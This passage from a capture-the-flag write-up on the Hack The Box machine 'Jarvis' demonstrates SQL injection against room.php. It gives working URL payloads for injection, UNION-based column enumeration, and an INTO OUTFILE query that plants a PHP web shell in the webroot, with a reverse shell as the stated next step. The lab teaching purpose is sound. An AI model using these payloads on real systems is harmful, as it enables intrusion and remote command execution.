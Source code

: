 Do you see the LFI? I did, too, but it turns out that was an SQL injection 🙂 A simple, working payload could be

{% highlight bash %}
http://jarvis.htb/room.php?cod=1;%20--

{% endhighlight %}

I wanted to do the SQL injection manually, so I started ‘exhaustively searching’ for the number of columns. The `SELECT` statement worked with 7 entries, so the table probably had the same number of columns:

{% highlight bash %}
http://jarvis.htb/room.php?cod=7%20UNION%20SELECT%201,2,3,4,5,6,7;%20--

{% endhighlight %}

<div>
<center><img src="/images/jarvis_htb_writeup/image-7-1024x593.png"></center>
</div>

Now that we have a working SQL `SELECT` statement, we can insert anything in the results. I wanted to write a simple PHP shell in a file on the server and then use it to get a reverse shell. I tried writing using the `INTO OUTFILE` statement, and it worked. Also, since the target is most probably running Linux, I tried to write the file in the default webroot directory (`/var/www/html`):

{% highlight bash %}
http://jarvis.htb/room.php?cod=7%20UNION%20SELECT%201,%27%3C?php%20echo%20shell_exec($_GET[%22cmd%22]);?%3E%27,3,4,5,6,7%20INTO%20OUTFILE%20%27/var/www/html/yakuhito_shell.php%27%20;%20--

{% endhighlight %}
